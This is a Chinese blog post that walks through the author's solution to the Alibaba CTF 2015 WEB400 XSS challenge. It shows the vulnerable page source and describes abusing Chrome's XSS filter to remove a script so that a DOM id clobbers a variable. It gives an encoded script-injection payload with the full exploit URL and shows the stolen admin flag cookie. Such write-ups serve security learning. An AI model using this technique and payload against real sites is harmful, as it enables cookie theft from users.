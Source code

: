```yaml
---
layout: post
title: Alibaba CTF 2015 - WEB400 WriteUP
---
```


{{ page.title }}
================
<p class="date">{{ page.date | date_to_string }} - evi1m0</p>

周末两天都在疗养睡眠，恰逢 AliCTF 与 0ctf 的夺旗赛，其实我都快睡到周一了，可惜下午被 R29 叫起来说阿里出了道 XSS400 分的题还没有队伍做出，另外说明一下经过朋友得知，如果此题只有一队做出来的话，才可以直接发表 WriteUP ，不然会导致其他作弊队伍抄袭 WriteUP ，所以在几小时搞定此题后，我简单记录下这道题，比较有趣：

- Flag 隐藏在管理员的 Cookie 中
- 要求在最新版 Chrome 触发
- http://1de28830f09a4b1b.alictf.com/pet.php?id=test&type=cat

<center>
<img src="http://ww3.sinaimg.cn/large/c334041bjw1eqmynsy8c2j20e707ct9a.jpg" />
</center>


    <script>
        if(!window.chrome){
            alert('\u8bf7\u4f7f\u7528\u0043\u0068\u0072\u006f\u006d\u0065\u6d4f\u89c8\u5668\u6d4f\u89c8\u672c\u9875');
            location.href = 'https://www.google.com/chrome/';
        }
    </script>
    <script src="secWrite.js"></script>
    <script>var imageData = {name: "Oreo"}</script>
    </head>
    <body>
        <div id="console"></div>
        <img id="test" src="cat.jpg" name="cat" onload="loadSucc()" onerror="loadErr()">
        <script>
            function loadSucc(){
                document.write('This is '+imageData.name)    
            }

            function loadErr(){
                document.write('Load '+imageData.name+' Fail!')    
            }

        </script>
    </body>
    </html>
    
直接忽视 if(!window.chrome) 判断浏览器，看下 secWrite.js 文件：

    document.write = function(str){
        document.getElementById('console').innerText = str;
    }
    
id为imgID，type为imgName，这里对两个参数进行多种测试后发现无法逃逸出去，因为当 type 值不为 cat 后 imageData.name 值就被设为空值：

    <script>var imageData = {name: ""}</script>所以考虑是否能够进行 js 的变量覆盖来对 imageData 进行 name 值的修改，这里提一个小插曲，在 IE 下是可以通过类似方法进行 js 变量覆盖的：
    <html>
    <body>
        <form id="location" href="bar">
        <script>alert(location.href)</script>
    </body>
    </html>
    
但是题目要求是在最新版的 Chrome 下执行 XSS 恶意代码，所以我想消灭开头的这段初始变量代码：

    <script>var imageData = {name: "Oreo"}</script>

因为如果我们能够通过一些技巧将开始的 imageData 消灭的话就可以通过将 URL 中的 ID 设置为 imageData ，随后修改 URL 中的 type 参数，达到控制 imageData.name 的目的。

这里利用 Chrome filter 的特性，之前 Sogili 在 Twitter 发表过的一个 Tip：使用 Chrome Filter 干掉对应的 js 代码，例如：```&a=<script>var imageData = {name: "Oreo"}</script>```会触发 Chrome 过滤器另源码中的对应代码段失效，所以我们利用这个特性就能够消灭掉初始化变量代码，从而覆盖 imageData.name：

![http://ww4.sinaimg.cn/large/c334041bjw1eqmz6xpapuj213s0a4ad0.jpg](http://ww4.sinaimg.cn/large/c334041bjw1eqmz6xpapuj213s0a4ad0.jpg)

这个时候经过 dom 解析后源码变成了：

    <html><head></head><body data-feedly-mini="yes">Load evi1m0 Fail!</body></html>
    
我们可控的 imageData.name 也就是上面输出到页面中的 evi1m0，这时通过测试使用 HTML hex 16 将 ```<script>alert(1)</script>``` 编码，然后再进行 URL 编码即可：

![http://ww4.sinaimg.cn/large/c334041bjw1eqmz950158j20y20euq4u.jpg](http://ww4.sinaimg.cn/large/c334041bjw1eqmz950158j20y20euq4u.jpg)

    %26%23x3c%3B%26%23x73%3B%26%23x63%3B%26%23x72%3B%26%23x69%3B%26%23x70%3B%26%23x74%3B%26%23x3e%3B%26%23x61%3B%26%23x6c%3B%26%23x65%3B%26%23x72%3B%26%23x74%3B%26%23x28%3B%26%23x31%3B%26%23x29%3B%26%23x3c%3B%26%23x2f%3B%26%23x73%3B%26%23x63%3B%26%23x72%3B%26%23x69%3B%26%23x70%3B%26%23x74%3B%26%23x3e%3B
    
所以构造拼接起来的 alert URL：

[http://1de28830f09a4b1b.alictf.com/pet.php/?id=imageData&type=evi1m0%26%23x3c%3B%26%23x73%3B%26%23x63%3B%26%23x72%3B%26%23x69%3B%26%23x70%3B%26%23x74%3B%26%23x3e%3B%26%23x61%3B%26%23x6c%3B%26%23x65%3B%26%23x72%3B%26%23x74%3B%26%23x28%3B%26%23x31%3B%26%23x29%3B%26%23x3c%3B%26%23x2f%3B%26%23x73%3B%26%23x63%3B%26%23x72%3B%26%23x69%3B%26%23x70%3B%26%23x74%3B%26%23x3e%3B&a=%3Cscript%3Evar%20imageData%20=%20{name:%20%22%22};%3Cscript%3E](http://1de28830f09a4b1b.alictf.com/pet.php/?id=imageData&type=evi1m0%26%23x3c%3B%26%23x73%3B%26%23x63%3B%26%23x72%3B%26%23x69%3B%26%23x70%3B%26%23x74%3B%26%23x3e%3B%26%23x61%3B%26%23x6c%3B%26%23x65%3B%26%23x72%3B%26%23x74%3B%26%23x28%3B%26%23x31%3B%26%23x29%3B%26%23x3c%3B%26%23x2f%3B%26%23x73%3B%26%23x63%3B%26%23x72%3B%26%23x69%3B%26%23x70%3B%26%23x74%3B%26%23x3e%3B&a=%3Cscript%3Evar%20imageData%20=%20{name:%20%22%22};%3Cscript%3E)

![http://ww3.sinaimg.cn/large/c334041bjw1eqmzb7wmepj20k008swfg.jpg](http://ww3.sinaimg.cn/large/c334041bjw1eqmzb7wmepj20k008swfg.jpg)

修改最终版本的 Payload 并提交给 Alibaba CTF ，于是收到的 Cookie 字段：

    cookie : flag=aHR0cDovLzFkZTI4ODMwZjA5YTRiMWIuYWxpY3RmLmNvbS95aW5xdWJhaWZ1bWVpX2NodXJlbmNlb19yZW5zaGVuZ2RpYW5mZW5nLnBocD90b2tlbj03N2E2ZTNhMzJhNzUwOGY0OTg1N2IyZDA0ZTg2MjUwNA
    
BASE64 Decode:

    echo -n "aHR0cDovLzFkZTI4ODMwZjA5YTRiMWIuYWxpY3RmLmNvbS95aW5xdWJhaWZ1bWVpX2NodXJlbmNlb19yZW5zaGVuZ2RpYW5mZW5nLnBocD90b2tlbj03N2E2ZTNhMzJhNzUwOGY0OTg1N2IyZDA0ZTg2MjUwNA" | base64 -D
    http://1de28830f09a4b1b.alictf.com/yinqubaifumei_churenceo_renshengdianfeng.php?token=77a6e3a32a7508f49857b2d04e86250
    
![http://ww1.sinaimg.cn/large/c334041bjw1eqmzdx99woj20cx02swes.jpg](http://ww1.sinaimg.cn/large/c334041bjw1eqmzdx99woj20cx02swes.jpg)